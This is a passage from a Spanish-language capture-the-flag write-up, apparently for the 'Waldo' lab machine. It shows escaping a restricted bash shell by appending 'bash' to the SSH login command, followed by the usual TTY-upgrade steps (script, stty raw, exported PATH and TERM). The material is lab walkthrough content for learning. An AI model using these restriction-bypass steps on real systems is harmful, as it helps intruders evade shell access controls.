 ```
                ,@@,&@,,,,(@@@@@@@(,,,,,.,,,,,,,,**,,,,,,.*@/,&@               
                 &@,*@@.,,,,,..,,,,&@@%/**/@@*,,,,,&(.,,,.@@,,@@               
                 /@%,&@/,,,,/@%,,,,,*&@@@@@#.,,,,,.@@@(,,(@@@@@(               
                  @@*,@@,,,#@@@&*..,,,,,,,,,,,,/@@@@,*(,,&@/#*                 
                  *@@@@@(,,@*,%@@@@@@@&&#%@@@@@@@/,,,,,,,@@                    
                       @@*,,,,,,,,,.*/(//*,..,,,,,,,,,,,&@,                    
                        @@,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                     
                        &@&,,,,,,,,,,,,,,,,,,,,,,,,,,,,&@#                     
                         %@(,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                      
                         ,@@,,,,,,,,@@@&&&%&@,,,,,..,,@@,                      
                          *@@,,,,,,,.,****,..,,,,,,,,&@@                       
                           (@(,,,.,,,,,,,,,,,,,,.,,,/@@                        
                           .@@,,,,,,,,,,,,,...,,,,,,@@                         
                            ,@@@,,,,,,,,,,,,,,,,.(@@@                          
                              %@@@@&(,,,,*(#&@@@@@@,     
                              
                            Here's Waldo, where's root?
Last login: Tue Dec  5 06:02:39 2023 from 127.0.0.1
-rbash: alias: command not found
```

Para `escapar` de la `restricted bash` se puede hacer `inyectando` un `comando` después de `loguearnos` con el `SSH`

```
waldo:~/.ssh$ ssh -i .monitor monitor@waldo bash
whoami
monitor
```

`Imprimimos` el `PATH` en nuestra máquina para posteriormente `exportarlo` a la `máquina` víctima

```
# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/justice-reaper/.local/bin
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
# export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/justice-reaper/.local/bin
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
